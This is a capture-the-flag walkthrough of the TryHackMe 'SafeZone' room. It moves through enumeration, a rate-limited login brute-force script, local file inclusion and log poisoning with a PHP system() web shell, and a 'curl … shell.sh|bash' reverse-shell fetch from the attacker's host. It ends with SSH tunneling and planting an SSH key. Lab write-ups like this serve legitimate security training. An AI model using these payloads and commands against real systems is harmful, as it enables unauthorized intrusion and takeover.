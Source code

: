 # 76 - SafeZone (LFI Log Poisoning, SSH Tunneling)

Room Link --> [https://tryhackme.com/room/safezone](https://tryhackme.com/room/safezone)

### Enumeration

{% code overflow="wrap" lineNumbers="true" %}
```bash
nmap -Pn -n -vv 10.10.90.206

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
{% endcode %}

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://10.10.90.206 -w /usr/share/dirb/wordlists/common.txt -x txt,php,sh,cgi,html,zip,bak,sql -b 404,403

/dashboard.php
/detail.php
/index.php
/index.html
/note.txt
/logout.php
/news.php
/register.php
```
{% endcode %}

Navigating to `index.php` .

<figure><img src=".gitbook/assets/image (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Trying default credentials like admin, password, etc but it seems there is rate limiting.

<figure><img src=".gitbook/assets/image (2) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Checking `/note.txt` .

{% code overflow="wrap" %}
```
Message from admin :-

I can't remember my password always , that's why I have saved it in /home/files/pass.txt file .
```
{% endcode %}

<figure><img src=".gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

Create a new account in `/register.php` .

<figure><img src=".gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

`/news.php`&#x20;

<figure><img src=".gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

`/detail.php`&#x20;

```
<!-- try to use "page" as GET parameter-->
```

<figure><img src=".gitbook/assets/image (6) (1).png" alt=""><figcaption></figcaption></figure>

We got a GET parameter to use, and remember the `/note.php` text we found too.

So i checked walkthrough, the most reasonable one i saw admitted to using this wordlist:

```
/usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt
```

Which had the new directory in it.

{% code overflow="wrap" %}
```bash
gobuster dir -e -u http://safezone.thm/ -t30 -w /usr/share/seclists/Discovery/Web-Content/raft-large-directories.txt -x txt,php

/~files
```
{% endcode %}

<figure><img src=".gitbook/assets/image (7) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (3) (1).png" alt=""><figcaption></figcaption></figure>

We got a hint for admin password.

```
Admin password hint :-

		admin__admin

				" __ means two numbers are there , this hint is enough I think :) "

```

In here I got the definitive username and the password. But there had to be two numbers in between. Because that was the only hint, I had to try all the different numeric combinations. But I still had in mind, that I only had three login attempts. So I set up the numeric combinations with Python and saved it to a file.

```bash
for i in {0..99}; do echo $i; done > numbers.txt
```

I manually edited the one digit numbers at the beginning to fit the scheme (from 0 to 00 and 1 to 01). With that prepared I ran it with wfuzz sleeping for 21 seconds per requests.

#### POST Login request bruteforce using wfuzz

{% code overflow="wrap" %}
```bash
wfuzz -c -z file,numbers.txt -d "username=admin&password=adminFUZZadmin&submit=Submit" -X POST -u http://safezone.thm/index.php -s 21
```
{% endcode %}

But i wrote my own bash script to automate this  well.

```bash
#!/bin/bash

url="http://safezone.thm/index.php"

for i in $(seq 10 99); do
    echo "[-]trying $i"
    response=$(curl -s -X POST -d "username=admin&password=admin${i}admin&submit=Submit" "$url")
    if ! echo "$response" | grep -qE "To many failed login attempts. Please login after 60 sec | Please enter valid login details"; then
        echo "[+]Correct password found: $i"
        break
    fi
    sleep 21
done
```

<figure><img src=".gitbook/assets/image (21).png" alt=""><figcaption></figcaption></figure>

We got our correct password then.

<figure><img src=".gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

Going to the `/detail.php` dir, then using the "page" parameter we get LFI.

[http://10.10.148.163/detail.php?page=/etc/passwd](http://10.10.148.163/detail.php?page=/etc/passwd)

<figure><img src=".gitbook/assets/image (23).png" alt=""><figcaption></figcaption></figure>

So i used SecsList to Bruteforce for other sensitive files i can read, and i was able to read the `access.log` file, so we can do Log Poisoning attack.

<figure><img src=".gitbook/assets/image (24).png" alt=""><figcaption></figcaption></figure>

```php
<?php system($_GET['cmd']); ?>
```

So we intercept the request to read the apache log file and inject this to the User-agent field:

<figure><img src=".gitbook/assets/image (9) (1).png" alt=""><figcaption></figcaption></figure>

So its working.

<figure><img src=".gitbook/assets/image (10) (1).png" alt=""><figcaption></figcaption></figure>

### Initial Access

Got a bash oneliner from payloadallthethings, save it in a shell.sh file setup NC, host it using `python3 -m http.server` then execute it using:

[http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash](http://10.10.148.163/detail.php?page=/var/log/apache2/access.log\&cmd=curl%20http://10.18.88.214/shell.sh|bash)

And i got shell.

<figure><img src=".gitbook/assets/image (11) (1).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to files user

Looked around Files home dir, and there is a `.something#fake_can@be^here` file containing password hash for Files user.

{% code overflow="wrap" %}
```bash
www-data@safezone:/home/files$ cat '.something#fake_can@be^here'
files:$6$BUr7qnR3$v63gy9xLoNzmUC1dNRF3GWxgexFs7Bdaa2LlqIHPvjuzr6CgKfTij/UVqOcawG/eTxOQ.UralcDBS0imrvVbc.
```
{% endcode %}

Cracked it using john

`magic`&#x20;

Login via ssh and it worked.

### Priv Esc to Yash user

`sudo -l`&#x20;

<figure><img src=".gitbook/assets/image (12) (1).png" alt=""><figcaption></figcaption></figure>

I looked around the server for a while. When I looked for opened ports locally I found a second web application on port 8000.

`ss -tulnp` .

### Port Tunneling

Using SSH Tunneling to open the remote port on my kali

`ssh -L 8000:localhost:8000 files@safezone.thm -fN` .

<figure><img src=".gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

#### Gobuster enum

{% code overflow="wrap" lineNumbers="true" %}
```bash
gobuster dir -u http://localhost:8000 -w /usr/share/dirb/wordlists/common.txt -x php,txt -b 404,403

/pentest.php
```
{% endcode %}

<figure><img src=".gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

Most of the cmds were blocked.

<figure><img src=".gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

SO whatever cmd we are entering in the terminal is been executed on the machine as `yash` user.

What i did was create a `.ssh` folder in `/home/yash/` then add my kali ssh public key into the authorized\_keys file and ssh into yash account and it worked.

<figure><img src=".gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### Priv Esc to root

Now as the user “yash” I got another output for the `sudo -l` command.

I tested the full command by simply executing it.

<figure><img src=".gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

Done!


